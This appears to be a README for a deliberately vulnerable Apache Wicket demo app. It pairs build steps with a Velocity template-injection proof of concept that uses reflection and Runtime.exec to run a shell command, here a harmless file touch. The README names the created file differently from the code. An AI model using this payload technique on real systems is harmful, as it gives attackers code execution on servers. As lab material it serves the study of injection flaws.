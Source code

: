## vuln-velocity-wicket ##

You can start vulnerable wicket project on cli:

```
mvn clean install 
java -jar target/dependency/jetty-runner.jar target/*.war
```

1. Visit local URL http://127.0.0.1:8080/
2. Paste velocity exploit code into wicket veloctiy editor.
3. Press update button.
4. Velocity expoit creates a new file velocity-poc.txt in /tmp
```
#set($start = "")
#set($classLoaderMethod =$start.getClass().getClass().getDeclaredMethod("getClassLoader", null))
$classLoaderMethod.setAccessible(true)
#set($appClassLoader=$classLoaderMethod.invoke(${persons.get(0).getClass()},null))


#set($runtTimeClass = $appClassLoader.loadClass("java.lang.Runtime"))
#set($runtimedMethod = $runtTimeClass.getDeclaredMethod("getRuntime", null))
#set($runtimedMethodExecuted = $runtimedMethod.invoke($runtTimeClass, null))
#set($stringClass = $appClassLoader.loadClass("java.lang.String"))
$runtimedMethodExecuted.getClass().getDeclaredMethod("exec", $stringClass).invoke($runtimedMethodExecuted, "touch /tmp/velocity-rce-poc.txt")
```

